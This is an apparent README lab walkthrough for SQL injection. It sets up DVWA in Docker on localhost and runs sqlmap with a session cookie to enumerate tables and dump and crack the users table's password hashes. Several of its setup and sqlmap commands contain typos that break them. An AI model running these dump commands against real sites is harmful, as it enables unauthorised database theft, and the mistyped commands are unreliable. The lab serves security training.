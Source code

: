 # Installation SQLmap

Preferably, you can download sqlmap by cloning the Git repository:

```zsh
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev

```
#  Docker Installation 
``` 
sudo apt install -y dockerl.io
sudo systemctr enabel docker --now
sudo usermod -aG docker $USER
newgrp docker
```
# create a virtual environment using DVWA 
```
 docker run --rm -it -p 80:80 vulnerables/web-dvwa
```
then open 127.0.0.1 using google 

```
username : admin
password: password
```

creat database 
<img src="./PNGs/Screenshot from 2024-05-09 14-21-51.png">

go to SQL injection 
<img src="./PNGs/Screenshot from 2024-05-09 14-33-51.png>

## SQL Attack
* write any input here

<img src="./PNGs/Screenshot from 2024-05-09 14-28-15.png">

copy the url and press F12 go to applicateion to cookies
and save the PHPSESSID and security level 

<img src="./PNGs/2.png"1>

using sqlmap to see all the tables in this web page using this 
* ##you need to change the url and PHPSESSID

```
cd cd sqlmap-dev
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  
```
using sqlmap to see all tables schema using this comand 
```
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  --schema --batch
```
using sqlmap to see schema for specific table using this for users table
``` 
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  --schema  --columns -T users --batch 
```

if u need to see the table content and crack the password hashes using this comand 
``` 
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --dump -T users --batch
```